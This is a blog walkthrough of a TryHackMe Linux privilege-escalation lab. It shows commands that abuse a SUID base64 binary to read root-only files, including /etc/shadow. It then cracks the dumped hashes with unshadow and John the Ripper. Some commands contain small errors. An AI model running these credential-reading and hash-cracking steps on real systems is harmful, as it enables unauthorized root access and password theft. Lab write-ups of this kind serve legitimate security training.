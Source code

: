 ```yaml
---
title: "TryHackMe Linux Privesc Capstone: A Quick Internal Pentest to Gain Root"
datePublished: Wed Aug 16 2023 11:55:33 GMT+0000 (Coordinated Universal Time)
cuid: clldoeqdh000609miczqj50an
slug: linux-privesc-capstone
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1692185506075/efdf958c-8af9-4652-8fcb-5e17b68b4576.png
tags: hacking, ctf, penetration-testing, 2articles1week, ethicalhacking

---
```


This walkthrough will go over the [Linux Privilege Escalation Capstone](https://tryhackme.com/room/linprivesc) found on [TryHackMe](https://tryhackme.com/). The objective is to assess your understanding gained from the prior course content by situating you in an internal environment where you already possess low-level privileges on a Linux server. Your task is to identify an attack vector that enables you to escalate your privileges to root.

### Ready, set, go!

First, we want to check and see if there is a `cron job` that we can exploit.

```bash
cat /etc/crontab
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185826744/eee4c211-6b03-4719-b6c2-265fd4e7ce7e.png align="center")

There's nothing for us here. Let's proceed to see which binaries are available for us to run with `sudo` privileges.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185884807/e3bcf798-ed39-4656-9de4-2114615d3156.png align="center")

We can exploit the `base64` binary with incorrect permissions to obtain the root flag.

```bash
LFILE=/home/rootflag/flag2.txt
base64 "$LFILE" | base64 --decode
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186099250/bdf8c2f0-8489-4189-b365-156a44e465b3.jpeg align="center")

Well, that worked for obtaining the root flag! Acquiring flag1 was a bit more challenging and required the use of `unshadow`. This command merges the `passwd` and `shadow` files into a single file, which can then be utilized by `John-the-Ripper` to crack passwords.

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 -- decode
```

Copy and save the content into a `shadow.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186390044/98ae8149-e977-40a5-9052-586d75b6bfe3.jpeg align="center")

Grab the contents from `passwd`.

```bash
cat /etc/passwd
```

Copy and save the content into a `passwd.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186452849/0d57e72e-5b5c-4686-93f5-af8cf005504a.png align="center")

Combine the files and use `John-the-Ripper` to crack the passwords:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186645883/49740bc6-7749-4c97-a428-0d480adac3ea.jpeg align="center")

Now that we have obtained `missy's` account password, we can switch users and retrieve the final flag from her `Documents` folder:

```bash
/home/missy/documents
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186822198/e7a92ac6-8f53-4cc3-914f-73304d6e6958.jpeg align="center")

### Summary

> In this walkthrough, we explore the Linux Privilege Escalation Capstone on TryHackMe, aiming to escalate our privileges to root. We begin by checking for exploitable cron jobs and identifying binaries with sudo privileges. We exploit the base64 binary to obtain the root flag and use unshadow and John-the-Ripper to crack passwords and retrieve the final flag from missy's Documents folder.